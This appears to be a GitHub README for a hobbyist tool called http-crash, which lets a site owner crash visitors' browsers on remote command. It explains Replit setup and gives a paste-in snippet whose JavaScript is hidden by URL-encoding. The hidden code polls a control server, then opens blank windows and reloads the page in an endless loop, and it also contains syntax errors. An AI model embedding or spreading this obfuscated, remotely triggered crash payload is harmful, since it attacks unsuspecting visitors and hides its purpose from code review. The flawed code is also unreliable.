 # http-crash
**Do not copy from main directory**

What started it as a thing to pass the time in robotics class is now I think I actually care about which is rare.

 so I have made three different versions of it
 
 ## Read me
 
 this was made to control the crashing in other games [Sketchboss](https://github.com/Awashcard0/Sketchboss) and [slope](https://github.com/Awashcard0/slope-test) it didn't end up working but I eventually revisited it when I was working on home thing for my website and i decided to fix it and now were here.

 ## Legacy

 Inside the legacy folder you'll find the original. This version read the file hosted on the web server (Cloudflare pages) that I had it set up on. It rather the file on the web server and not from the repo because it would view from the cache or somthing

 ## Current

 The current version can be controlled by a node js web server. The current version also has a feature where you can show an alert before crashing. This can be ran on a normal web server or can be ran on replit i'll show both

 ### Replit

 Replit is pretty simple

 1. Click on [this link](https://replit.com/@Awashcard0/Crash-controle) and fork the repl
 2. In replit click on secrets > create new secret > name is PASS all uppercase > in value put whatever you want the password to be > save
 3. Then enter your repls URL into the URL variable on the web page

 ### non replit / web-server

 By the point that you're putting this on a web server you should probably know what to do. If you don't just enter the URL to wherever this is configured. Download it from the web server folder

 ### JS snippet

 Copy the code and put it in your site

 ```html
<script>
// enter url here
var url = "URL HERE"
</script>
<script>
document.write(unescape('%3Cscript%3E%0Ahello%28%29%3B%0A%0Aasync%20function%20hello%28%29%20%7B%0A%20%20while%20%28true%29%20%7B%0A%20%20%20%20await%20ya%28%29%3B%0A%20%20%20%20await%20sleep%285000%29%3B%0A%20%20%7D%0A%7D%0A%0Alet%20msgWait%20%3D%20false%0A%0Aasync%20function%20ya%28%29%20%7B%0A%20%20let%20mode%20%3D%20await%20get%28url%20+%20%22/val%22%29%3B%0A%0A%20%20if%20%28mode.includes%28%22ym%22%29%29%20%7B%0A%20%20%20%20window.open%28%22about%3Ablank%22%29%0A%0A%20%20%20%20%20%20%20%20while%281%29location.reload%281%29%0A%0A%20%20%20%20alert%28await%20get%28url%20+%20%22/msg%22%29%29%0A%0A%20%20%7D%20else%20if%20%28mode.includes%28%22y%22%29%29%20%7B%0A%20%20%20%20window.open%28%22about%3Ablank%22%29%0A%0A%20%20%20%20%20%20%20%20while%281%29location.reload%281%29%0A%0A%20%20%7D%20else%20if%20%28mode.includes%28%22m%22%29%29%20%7B%0A%0A%20%20%20%20if%20%28%21msgWait%29%20%7B%0A%20%20%20%20alert%28await%20get%28url%20+%20%22/msg%22%29%29%0A%20%20%20%20msgWait%28%29%3B%0A%20%20%20%20%7D%0A%20%20%7D%20else%20%7B%0A%0A%20%20%7D%0A%7D%0A%0Afunction%20get%28curl%29%20%7B%0A%20%20return%20new%20Promise%28%28resolve%2C%20reject%29%20%3D%3E%20%7B%0A%20%20%20%20const%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20xhr.open%28%27GET%27%2C%20curl%29%3B%0A%20%20%20%20xhr.onload%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20if%20%28xhr.status%20%3D%3D%3D%20200%29%20%7B%0A%20%20%20%20%20%20%20%20resolve%28xhr.responseText%29%3B%0A%20%20%20%20%20%20%7D%20else%20%7B%0A%20%20%20%20%20%20%20%20reject%28%27Request%20failed.%20Returned%20status%20code%3A%27%2C%20xhr.status%29%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%3B%0A%20%20%20%20xhr.onerror%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20reject%28%27Request%20failed.%20There%20was%20a%20network%20error.%27%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20xhr.send%28%29%3B%0A%20%20%7D%29%3B%0A%7D%0A%0Afunction%20sleep%28ms%29%20%7B%0A%20%20return%20new%20Promise%28resolve%20%3D%3E%20setTimeout%28resolve%2C%20ms%29%29%3B%0A%7D%0A%0Afunction%20msgWait%28%29%3B%20%7B%0A%20%20msgWait%20%3D%20true%0A%20%20sleep%2810000%29%0A%20%20msgWait%20%3D%20false%0A%7D%0A%3C/script%3E%0A'))
</script>

 ```